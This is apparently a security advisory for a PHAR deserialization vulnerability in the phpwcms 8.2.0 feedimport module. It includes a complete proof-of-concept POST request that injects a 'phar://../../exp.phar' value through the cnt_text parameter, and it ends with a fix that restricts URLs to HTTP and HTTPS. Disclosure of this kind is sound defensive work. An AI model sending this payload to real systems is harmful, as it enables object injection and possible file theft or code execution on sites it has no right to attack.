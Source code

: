 # `phar` deserialization vulnerability `feedimport` function

## 0x01 Affected version
vendor: https://github.com/slackero/phpwcms

version: 8.2.0

php version: 7.x

## 0x02 Vulnerability description

The phpwcms Content Management System is vulnerable to PHP Object Injection in the feedimport module through deserialization of untrusted input. An attacker can provide a malicious PHAR URL via the 'cnt_text' parameter in the feedimport module, which triggers PHP's deserialization mechanism. This vulnerability allows attackers to inject PHP Objects through a PHAR file using a directory traversal attack pattern (../../). No known POP (Property Oriented Programming) chain has been identified in the core application, meaning this vulnerability may have limited impact unless other components with suitable gadgets are installed. If a POP chain exists through additional components, attackers could potentially delete files, access sensitive information, or execute arbitrary code depending on the available gadgets. This vulnerability can be exploited by attackers with access to the phpwcms admin interface. The attack requires a valid CSRF token to be included in the request.
![alt text](../dists/phpwcms.png)

```text
POST /phpwcms.php?csrftoken=11172a0bf9955932b9f064e5215c098f&do=modules&module=feedimport&edit=0 HTTP/1.1
Host: dem0.com
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dem0.com/phpwcms.php?do=modules&module=feedimport&edit=0&csrftoken=11172a0bf9955932b9f064e5215c098f&PHPSESSID=tccfqjoqbdgd7f0jvhngq0utrk
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=tccfqjoqbdgd7f0jvhngq0utrk; phpwcmsBELang=en
Origin: http://dem0.com
Content-Length: 617

csrf_token_name=csrf682596161e0424.63421746&csrf_token_value=52c8bb1a370199c1ec7a45006e8c78ffa76c3ac9402ba651468347846a372c4f9475a8d316adbed661297207438779390450b4d14523bbd434bcb954c23f24a0&id=0&cnt_name=rss&cnt_text=phar%3A%2F%2F..%2F..%2Fexp.phar&cnt_object-structure_level_id=-2&cnt_object-article_template_detail=default&cnt_object-article_template_list=default&cnt_object-image_folder_id=0&cnt_object-image_url_replace=a&cnt_object-feed_cache_timeout=14400&cnt_object-author_id=1&cnt_object-author_name=Webmaster&cnt_object-source_link_text=a&cnt_object-import_status_email=a&cnt_status=1&submit=create&cnt_prio=
```

This vulnerability can also lead to arbitrary file read issues. See the reference link below:
[https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle](https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle)


## 0x03 Repair suggestions
To prevent the exploitation of this vulnerability, it is important to ensure that the URLs passed to createFileFromUrl are valid and only allow the `HTTP` or `HTTPS` protocols. Malicious attackers may attempt to pass URLs using other protocols, such as `phar://`, which could trigger the deserialization vulnerability. Proper validation and filtering of URLs are critical for mitigating this risk.

